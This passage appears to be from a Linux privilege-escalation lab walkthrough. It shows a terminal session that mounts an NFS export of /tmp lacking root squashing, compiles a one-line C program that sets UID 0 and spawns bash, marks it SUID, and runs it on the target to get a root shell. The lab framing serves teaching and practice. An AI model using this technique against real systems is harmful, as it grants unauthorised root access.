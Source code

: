 ~~~
root@kali:/data/vpn# showmount -e 10.10.197.65
Export list for 10.10.197.65:
/tmp *
root@kali:/data/vpn# mkdir /tmp/1
root@kali:/data/vpn# mount -o rw,vers=2 10.10.197.65:/tmp /tmp/1
root@kali:/data/vpn# echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
root@kali:/data/vpn# gcc /tmp/1/x.c -o /tmp/1/x
/tmp/1/x.c: In function ‘main’:
/tmp/1/x.c:1:14: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    1 | int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }
      |              ^~~~~~
/tmp/1/x.c:1:25: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    1 | int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }
      |                         ^~~~~~
/tmp/1/x.c:1:36: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    1 | int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }
      |                                    ^~~~~~
root@kali:/data/vpn# chmod +s /tmp/1/x
~~~

Linux VM

1. In command prompt type: `/tmp/x`
2. In command prompt type: `id`

~~~
TCM@debian:/tmp$ /tmp/x
root@debian:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~
